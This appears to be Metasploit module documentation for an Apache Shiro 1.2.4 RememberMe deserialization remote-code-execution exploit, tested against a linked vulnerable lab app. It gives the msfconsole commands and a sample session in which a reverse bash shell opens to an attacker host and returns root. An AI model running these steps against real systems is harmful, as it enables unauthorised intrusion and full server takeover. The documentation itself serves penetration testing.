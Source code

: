 ## Description

Apache Shiro v1.2.4 are vulnerable to deserialize RCE.

## Vulnerable Application

[Shiro RememberMe 1.2.4](https://github.com/Medicean/VulApps/tree/master/s/shiro/1)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/shiro_rememberme_v124_deserialize`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested on GNU/Linux x86_64 using Shiro-1.2.4

```
msf5 > use exploit/multi/http/shiro_rememberme_v124_deserialize
msf5 exploit(multi/http/shiro_rememberme_v124_deserialize) > set rhosts 192.168.1.11
rhosts => 192.168.1.11
msf5 exploit(multi/http/shiro_rememberme_v124_deserialize) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf5 exploit(multi/http/shiro_rememberme_v124_deserialize) > run

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Command shell session 2 opened (192.168.1.2:4444 -> 192.168.1.11:36206) at 2019-02-04 20:16:27 +0800

whoami
root
exit
[*] 192.168.1.11 - Command shell session 2 closed.
```
